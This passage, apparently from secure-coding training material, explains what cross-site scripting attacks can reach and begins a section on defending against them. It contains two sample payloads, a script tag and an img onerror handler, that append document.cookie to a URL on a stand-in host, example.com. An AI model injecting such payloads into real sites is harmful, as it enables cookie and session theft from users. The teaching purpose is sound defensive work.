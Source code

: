 Data you do not have complete control over is known as **untrusted data**; it must be handled with care.

---

#### 5.1.2. **WHAT CAN THESE ATTACKS DO?**

---
---

<mark>**XSS** can give the attacker access to information in:

* <mark>**The DOM** (including form data)
* <mark>**That website's cookies**
* <mark>**Session tokens**: information that identifies you from other users when you log into a site

<mark>This could let the attacker access a user account and:

* <mark>Make purchases with that account
* <mark>Post defamatory content
* <mark>Spread their malicious code further faster

---

#### 5.1.3. **EVEN SIMPLE CODE CAN CAUSE PROBLEMS**

---
---

Malicious code often mixes HTML and JavaScript (although URLs and CSS can be used to trigger XSS attacks). The two examples below demonstrate how fairly simple code could help an attacker access a user's account.

This first example stores cookie data in a variable, which could then be sent to a third-party server:

```js
<script>var adr= 'http : //example.com/xss .php?cookie=' + escape(document . cookie);</script>
```

This code shows how a missing image can be used with an HTML attribute to trigger malicious code:

```html
<img src="http://nofile" onerror="adr='http: //example.com/ xss .php?'+escape(document.cookie)";>
```

<mark>**Any HTML from untrusted sources opens your site to XSS attacks. But the threat is only from certain characters.**

---

### 5.2. **DEFENDING AGAINST CROSS-SITE SCRIPTING**

---
---

#### 5.2.1. **VALIDATE INPUT GOING TO THE SERVER**

---
---